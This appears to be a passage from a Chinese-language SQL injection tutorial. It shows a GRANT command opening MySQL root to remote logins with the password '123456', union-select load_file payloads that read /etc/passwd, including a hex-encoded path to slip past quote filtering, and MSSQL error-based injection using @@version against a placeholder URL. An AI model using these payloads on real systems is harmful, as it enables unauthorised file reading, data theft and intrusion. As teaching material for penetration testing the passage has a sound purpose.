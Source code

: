 开启外连：`GRANT ALL PRIVILEGES ON . TO 'root'@'%' IDENTIFIED BY '123456' WITH GRANT OPTION;`

## **MySQL函数利用**

MySQL提供了`load_file()`函数，可以帮助用户快速读取文件，但是文件位置必须在服务器上，文件路径必须为绝对路径，而且需要root权限

  

SQL语句如下：`union select 1,load_file(‘/etc/passwd’),3,4,5 #`

  

通常，一些防注入语句不允许单引号的出现，那么可以使用一下语句绕过：

  

```sql
union select 1,load_file(0x272F6574632F70617373776427),3,4,5 #
```

对路径进行16进制转换。

### **MSSQL手工注入**

与SQL注入不同的是，SQL利用的爆出显示的字段，MSSQL利用的报错注入，插入恶意的sql语句，让查询报错，在报出的错误中，显示我们想要的信息。

注入点：

www.xxx.cn/xxx/xxx.aspx?id=1 

  

#### **查询数据库版本**

`@@version`：MSSQL全局变量，表示数据库版本信息。

**测试语句：**

http://www.xxx.cn/xxx/xxx.aspx?id=1  and @@version>0

注意：“and @@vsersion>0”也可以写成“and 0/@@version>0”

  

**报错信息：**

在将 nvarchar 值 ‘Microsoft SQL Server 2008 R2 (SP3) - 10.50.6000.34 (X64) Aug 19 2014 12:21:34 Copyright (c) Microsoft Corporation Enterprise Edition (64-bit) on Windows NT 6.1 <X64 (Build 7601: Service Pack 1) (Hypervisor)‘ 转换成数据类型 int 时失败。

  

**原因**：

  

@@version是MSSQL的全局变量

  

如果我们在“?id=1”后面加上“and @@version>0”，那么“and”后面的语句会将“@@version”强制抓换成int类型与0比较大小，但是类型转换失败，所以就将数据库信息暴露出来。

#### **查询计算机名称**

@@servername：MSSQL全局变量，表示计算机名称。
